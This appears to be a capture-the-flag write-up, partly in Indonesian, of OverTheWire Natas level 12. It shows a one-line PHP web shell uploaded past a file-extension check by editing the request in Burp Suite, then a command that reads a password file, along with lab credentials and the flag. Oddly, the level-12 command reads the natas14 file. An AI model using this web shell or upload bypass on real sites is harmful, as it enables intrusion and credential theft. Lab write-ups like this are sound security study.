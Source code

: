 ```yaml
---
layout: level
level: 12
previous: ./level 11.html
next: ./level 13.html
---
```


# soal
Username: natas12 \
URL:      http://natas12.natas.labs.overthewire.org

# solve
- login with cred natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
- lalu disini ada sebuah form gambar jpg yang kalo kita lihat dari codenya namaa file tersebut akan dibuat secara acak dengan format jpeg
  ![alt text](docs/images/image-22.png)
- jadi saya mencoba membuat backdoor php
  ```php
  cat simple.php 
  <?php echo system($_GET['c']); ?>
  ```
- dan mencoba menguploadnya dan ketika saya coba benar saja filenya diganti menjadi extension jpeg dengan nama acak
- dan untungnya ketika saya cek di burp suite tidak terdapat encrypt apapun jadi saya mengubahnya
  ![alt text](docs/images/image-23.png)
  ![alt text](docs/images/image-24.png)
- namun pas di forward hanya extensionnya saja namun tidak apa apa karena kita cuma butuh extensionya 
  ![alt text](docs/images/image-25.png)
- dan ketika saya coba buka filenya dengan urlnya saya sudah mendapatkan RCE
  ![alt text](docs/images/image-26.png)
- dan saya hanya perlu mendapatkan file passnya
  ![alt text](docs/images/image-27.png)
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC